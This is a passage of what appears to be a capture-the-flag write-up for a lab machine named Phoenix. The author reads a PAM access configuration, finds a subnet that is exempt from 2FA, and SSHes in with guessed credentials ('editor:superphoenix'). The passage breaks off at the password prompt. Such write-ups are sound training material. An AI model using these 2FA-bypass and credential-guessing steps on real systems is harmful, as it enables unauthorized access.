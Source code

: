 I remember reading a blog article that recommended looking at where is the 2FA implemented. Sometimes it only asks for 2FA in a specific service or IP. Looking at the access configuration file I saw that it would allow access from the network `10.11.12.13/24`. So probably we can circunvent the 2FA.
```bash
wp_user@phoenix:~$ cat /etc/security/access-local.conf                                                                                                        
+ : ALL : 10.11.12.13/24                                                                                                                                      
- : ALL : ALL
```

Running `ifconfig` revealed we are connected to that subnet via `eth0`:
```bash
wp_user@phoenix:~$ ifconfig                                                                                                                                   
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500                                                                                                  
        inet 10.10.11.149  netmask 255.255.254.0  broadcast 10.10.11.255                                                                                      
        inet6 fe80::250:56ff:feb9:954c  prefixlen 64  scopeid 0x20<link>                                                                                      
        inet6 dead:beef::250:56ff:feb9:954c  prefixlen 64  scopeid 0x0<global>                                                                                
        ether 00:50:56:b9:95:4c  txqueuelen 1000  (Ethernet)                                                                                                  
        RX packets 82501  bytes 11605905 (11.6 MB)                                                                                                            
        RX errors 0  dropped 37  overruns 0  frame 0                                                                                                          
        TX packets 44365  bytes 39835719 (39.8 MB)                                                                                                            
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=195<UP,BROADCAST,RUNNING,NOARP>  mtu 1500
        inet 10.11.12.13  netmask 255.255.255.0  broadcast 0.0.0.0
        inet6 fe80::607c:42ff:fe5b:cd05  prefixlen 64  scopeid 0x20<link>
        ether 62:7c:42:5b:cd:05  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 989  bytes 73122 (73.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

## SSH shell as editor
Lets SSH in to that network. I tried some credentials and the one that work was `editor:superphoenix`.
```
wp_user@phoenix:~$ ssh editor@10.11.12.13                                                                                                                     
The authenticity of host '10.11.12.13 (10.11.12.13)' can't be established.                                                                                    
ECDSA key fingerprint is SHA256:UFrZTjBNH3KNUbtCeiCkYGUImlWztCyRUVcMDDkKeu4.                                                                                  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.11.12.13' (ECDSA) to the list of known hosts.
$$$$$$$\  $$\                                     $$\           
$$  __$$\ $$ |                                    \__|          
$$ |  $$ |$$$$$$$\   $$$$$$\   $$$$$$\  $$$$$$$\  $$\ $$\   $$\ 
$$$$$$$  |$$  __$$\ $$  __$$\ $$  __$$\ $$  __$$\ $$ |\$$\ $$  |
$$  ____/ $$ |  $$ |$$ /  $$ |$$$$$$$$ |$$ |  $$ |$$ | \$$$$  / 
$$ |      $$ |  $$ |$$ |  $$ |$$   ____|$$ |  $$ |$$ | $$  $$<  
$$ |      $$ |  $$ |\$$$$$$  |\$$$$$$$\ $$ |  $$ |$$ |$$  /\$$\ 
\__|      \__|  \__| \______/  \_______|\__|  \__|\__|\__/  \__|
Password: 
```